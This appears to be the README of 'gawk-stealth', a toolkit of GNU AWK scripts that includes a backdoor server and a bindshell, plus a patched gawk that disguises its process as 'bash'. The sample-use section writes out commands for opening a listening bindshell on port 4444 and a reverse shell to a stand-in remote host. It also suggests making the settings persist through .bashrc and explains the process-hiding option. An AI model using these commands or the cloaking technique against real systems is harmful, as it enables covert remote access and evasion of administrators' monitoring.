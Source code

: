[gawk-stealth](http://gitbrew.org/gawk)  
========================================
##Copyright (C) 2012 Iadnah [<iadnah@gitbrew.org>](mailto:iadnah@gitbrew.org)  
##gawk-stealth is distributed under the GNU GPL  
  
  
###SYNOPSIS  
  
Gawk-Stealth consists of two parts: a set of scripts that can be run from within GNU AWK (using the -f option), and a statically linked 32-bit version of GNU AWK that is patched with our Romulan Cloaking technology.  
  
The scripts included in gawk-stealth are:  
banner_grab.gawk - simple awk banner grabber
banner_grab_pastable.gawk - one-line pastable version of the banner grabber
gawk_get.gawk - script to make an HTTP (no HTTPS) request and dump output to STDOUT
gawk_http_bnc.gawk - Listens on a port and when a connection is made to it, performs an HTTP request as configured and redirects output to connecting host
gawkserv.gawk - Very simple POC backdoor server
rgawkcmd-0.2.gawk - Full-featured bindshell with listen, reverse-connect, and authentication options
  
###COMPILING gawk32.static    
  
To compile, untar the version of gawk in static_gawk, apply the gawk-3.1.8_gawkhide.patch, and compile using the makestatic script.  
  
###SAMPLE USES  
  
The main script of interest is rgawkcmd-0.2.gawk.  When using it, the most important thing to keep in mind is that options are set using environmental variables.  In bash, you may set these with the export command, or to make more persistent you can add the env vars to .bashrc in the home directory.  

To make a listening bindshell with rgawkcmd-0.2.gawk, issue the following commands:  

	$ export RGC_LPORT=4444
	$ export RGC_MODE="listen"
	$ gawk -f rgawkcmd-0.2.gawk

This will open up a listening bindshell on port 4444.  To do a reverse bindshell, you would enter:  

	$ export RGC_MODE="remote"
	$ export RGC_RPORT=4444
	$ export RGC_HOST="totallylegitimate.nationalbankofuganda.com"
	$ gawk -f rgawkcmd-0.2.gawk
	
###ROMULAN CLOAKING TECHNOLOGY

In order to turn on Romulan Cloaking Device (reverse engineered by CDR Data from a Romulan Warbird captured by CPT Jean-Luc Picard), set GAWK_HIDE to anything but NULL.  Example:  

	$ export GAWK_HIDE=1
	
This changes argv[0] to read "bash" (for ps and netstat purposes).  
NOTE: this requires you use patched version of GNU AWK included with this package.  

##LICENSE  
gawk-stealth Copyright (C) 2012 Iadnah iadnah@gitbrew.org

This program is free software; you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation; either version 2 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with this program; if not, write to the Free Software Foundation, Inc., 59 Temple Place, Suite 330, Boston, MA 02111-1307 USA

See the COPYING file for more information.

---
Iadnah [<iadnah@gitbrew.org>](mailto:iadnah@gitbrew.org)  
Security Consultant  
[gitbrew.org](http://gitbrew.org)  
[Hephaestus Security](http://hephaestussec.com)